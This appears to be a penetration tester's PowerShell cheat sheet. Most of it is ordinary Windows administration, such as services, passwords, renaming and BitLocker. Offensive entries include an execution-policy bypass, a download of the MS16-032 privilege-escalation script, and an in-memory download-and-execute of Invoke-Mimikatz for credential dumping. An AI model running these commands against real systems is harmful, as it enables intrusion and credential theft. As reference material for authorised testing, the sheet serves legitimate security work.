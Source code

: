 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

Powershell Commands

Run Powershell Commands from Command Prompt

~~~PowerShell
powershell -c “<Command to run>”
~~~

Run Powershell File (.ps1) from Command Line

~~~PowerShell
powershell -ExecutionPolicy bypass -f "powershell_file.ps1" -parameter data
~~~

Download File/Executable from HTTP Server

~~~PowerShell
powershell "(New-Object System.Net.WebClient).Downloadfile('http://10.13.7.30/Windows/ms16-032.ps1','MS16-032.ps1')"
~~~

Download File/Executable from HTTP Server and Execute in Memory with Arguments

~~~PowerShell
powershell iex (New-Object Net.WebClient).DownloadString('http://192.168.19.55/Windows/Powershell/Nishang/Gather/Invoke-Mimikatz.ps1');Invoke-Mimikatz
~~~

Run Executable As Its Own Process

~~~PowerShell
Start-Process "shell-name.exe"
~~~

Determining Available Tokens for Impersonation

~~~PowerShell
whoami /priv
~~~

Stopping and Starting Services

~~~PowerShell
sc stop <servicename>
sc start <servicename>
~~~

Querying Service Configurations

~~~PowerShell
sc qc <servicename>
~~~

Querying Service States

~~~PowerShell
sc query <servicename>
~~~

Setting Password as Convert to Secure String for use with Setting a DomainUserPassword

~~~PowerShell
$UserPassword=ConvertTo-SecureString ‘P@ssw0rd1234’ -AsPlainText -Force
Set-DomainUserPassword -Identify <DomainUserAccount> -AccountPassword $UserPassword
~~~

Parameters within scripts

~~~PowerShell
<#
Sets parameters for scripting that can be used in the command line
.ex
script.ps1 -Variable1 V1Data -Variable2 V2Data -Variable3 V3Data
#>
param ($Variable1, $Variable2, $Variable3)
~~~

Setting Password for Local Users

~~~PowerShell
$Password = ConvertTo-SecureString $Pass -AsPlainText -Force
$UserAccount = Get-LocalUser -Name "user"
$UserAccount | Set-LocalUser -Password $Password
~~~

Renaming Computer

~~~PowerShell
Rename-Computer -NewName $CompName
~~~

Setting Bitlocker Key and then Creating a file with the recovery key information

~~~PowerShell
#Set Bitlocker key
Enable-BitLocker -MountPoint "C:" -RecoveryPasswordProtector -EncryptionMethod XtsAes256 -UsedSpaceOnly -SkipHardwareTest
#Create text file with Recovery Key Information
$BVol = Get-BitLockerVolume -MountPoint "C"
$Bvol.KeyProtector > C:\Users\user\Documents\recovery.txt
~~~

